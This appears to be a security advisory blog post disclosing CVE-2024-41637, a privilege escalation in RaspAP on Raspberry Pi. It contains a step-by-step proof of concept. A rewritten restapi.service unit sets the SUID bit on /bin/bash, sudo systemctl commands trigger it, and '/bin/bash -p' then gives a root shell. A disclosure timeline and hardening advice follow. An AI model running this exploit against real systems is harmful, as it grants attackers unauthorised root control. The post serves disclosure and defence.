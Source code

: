 ```yaml
---
layout: post
title: CVE-2024-41637  
subtitle: Local Privilege Escalation In RaspAP 
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


# CVE-2024-41637

```
Title: RaspAP Local Privilege Escalation
Risk: 9.9 Critical CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
Versions Affected: Before Versions 3.1.5
Identifier: CVE-2024-41637
Authors: Aaron Haymore
```

## Summary
RaspAP is an open-source project that simplifies the process of configuring and managing a wireless access point on a Raspberry Pi through a web interface. It is designed to transform a Raspberry Pi into a wireless hotspot or router. This tool is particularly popular in educational settings, IoT applications, and among homelab enthusiasts.

A local privilege escalation vulnerability has been identified in RaspAP. The `www-data` user has write access to the `restapi.service` file and also possesses `sudo` privileges to execute several critical commands without a password. This combination of permissions allows an attacker to modify the service to execute arbitrary code with root privileges, escalating their access from `www-data` to root.


## Proof of Concept (PoC) for Exploiting the Vulnerability

To demonstrate how this vulnerability can be exploited, follow these steps to gain root access by modifying and restarting a service with `sudo` privileges:

**Edit the Service Configuration:** Gain access as the `www-data` user and edit the `restapi.service` file located at `/lib/systemd/system/restapi.service`. Replace its contents with the following configuration:
```
[Unit]
Description=Set SUID bit on /bin/bash
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'echo "Service started. Use systemctl to stop the service to set the SUID bit on /bin/bash."'
ExecStop=/bin/bash -c 'chmod u+s /bin/bash'
Restart=always
RestartSec=1

[Install]
WantedBy=multi-user.target
```

This configuration will set the SUID bit on `/bin/bash` when the service stops, allowing the shell to run with root privileges.

**Reboot the Machine:** Run the following command to reboot the machine and reload the daemon:
`sudo /sbin/reboot`

**Start the Modified Service:** Once the machine has rebooted, start the modified `restapi.service` by running:
`sudo /bin/systemctl start restapi.service`


**Stop the Service:** To set the SUID bit, stop the service with the following command:
`sudo /bin/systemctl stop restapi.service`

**Gain Root Access:** Finally, execute the following command to get a root shell:
`/bin/bash -p`

By following these steps, an attacker can exploit the vulnerability to escalate privileges and gain root access. This demonstrates the critical nature of the issue and the importance of securing service configurations and restricting `sudo` access.

## Report Timeline

```
07-16-2024: Vulnerability discovered and reported to security@raspap.com.
07-18-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment.
07-23-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment.
07-26-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment and notificaion of public disclosure.
07-27-2024: Public Disclosure
```

## Conclusion
This vulnerability in RaspAP highlights the critical importance of correctly configuring access controls and user privileges within a system. Allowing a low-privilege user like `www-data` to modify service files and use `sudo` without proper restrictions can lead to severe security breaches, including privilege escalation and arbitrary code execution.

To prevent such vulnerabilities, it is essential to adhere to the following best practices for access control:

- **Implement the Principle of Least Privilege:** Ensure that users only have the minimal level of access necessary to perform their duties. Restrict write permissions to service files to only those who absolutely need it.
- **Audit and Restrict `sudo` Access:** Regularly review `sudoers` configurations to ensure that only trusted users have the ability to execute commands with elevated privileges. Avoid broad `NOPASSWD` configurations that can be exploited.
- **Secure Service Configurations:** Ensure that critical service configurations and scripts are protected from unauthorized modifications. Use appropriate file permissions and ownership settings.
- **Monitoring and Logging:** Implement comprehensive logging and monitoring to detect and alert on unauthorized changes or suspicious activities. Regularly review logs to catch potential exploitation attempts early.

By focusing on correct access controls and ensuring that permissions are appropriately configured, organizations can significantly reduce the risk of such vulnerabilities and maintain a more secure environment. This case underscores the importance of diligently managing user privileges and access to critical system components.
